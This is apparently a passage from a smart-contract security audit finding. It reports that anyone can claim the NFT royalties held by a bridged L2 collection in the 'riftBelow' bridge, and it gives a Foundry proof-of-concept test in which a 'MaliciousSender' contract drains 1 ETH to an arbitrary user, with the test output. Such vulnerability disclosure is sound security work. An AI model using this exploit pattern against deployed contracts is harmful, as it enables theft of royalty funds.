 ### Impact

The attacker gains all available NFT collection royalties.

### PoC
Test:
```solidity
    function testAnybodyCanClaimRoyalties() public {
        // transfer NFT collection from L1 to L2
        _bridgeNft(address(this), address(l1NFT), 0);

        // add some royalties to L2 collection
        address l2NFTAddress = riftBelow.l2AddressForL1Collection(address(l1NFT), false);
        deal(l2NFTAddress, 1 ether);

        // prepare a malicious user
        address anyUser = address(1);

        console.log('===before===');
        console.log('Balance ETH (L2 collection):', l2NFTAddress.balance);
        console.log('Balance ETH (anyUser):', anyUser.balance);

        /**
         * 1. `anyUser` deploys the `MaliciousSender` contract
         * 2. `anyUser` calls `MaliciousSender.run()` which claims all available collection royalties
         */
        vm.startPrank(anyUser);
        MaliciousSender maliciousSender = new MaliciousSender(riftBelow);
        address[] memory tokens = new address[](2);
        tokens[0] = address(0);
        maliciousSender.run(address(l1NFT), anyUser, tokens);
        vm.stopPrank();

        console.log('===after===');
        console.log('Balance ETH (L2 collection):', l2NFTAddress.balance);
        console.log('Balance ETH (anyUser):', anyUser.balance);
}
```

Run `forge test --match-path test/RiftTest.t.sol --match-test testAnybodyCanClaimRoyalties -vv` to get this output:
```solidity
Ran 1 test for test/RiftTest.t.sol:RiftTest
[PASS] testAnybodyCanClaimRoyalties() (gas: 744707)
Logs:
  ===before===
  Balance ETH (L2 collection): 1000000000000000000
  Balance ETH (anyUser): 0
  ===after===
  Balance ETH (L2 collection): 0
  Balance ETH (anyUser): 1000000000000000000
```
